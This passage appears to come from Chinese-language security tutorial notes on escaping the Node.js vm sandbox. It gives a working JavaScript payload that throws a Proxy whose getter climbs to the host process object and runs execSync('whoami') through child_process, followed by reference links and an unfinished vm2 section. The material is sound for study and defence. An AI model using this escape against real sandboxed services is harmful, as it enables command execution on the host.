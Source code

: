 一些情况下，代码中不会给出res对象，也就是说执行沙箱后没有返回值被接收。对此可以考虑使用异常处理：

```js
const vm = require("vm");

const script = 
`
    throw new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('whoami').toString();
        }
    })
`;
try {
    vm.runInContext(script, vm.createContext(Object.create(null)));
}catch(e) {
    console.log("error:" + e) 
}
```

参考文章：

https://juejin.cn/post/6844904090116292616

https://www.leavesongs.com/

https://vulhub.org/zh

### vm2沙箱

\<TODO\>

https://www.cnblogs.com/zpchcbd/p/16899212.html



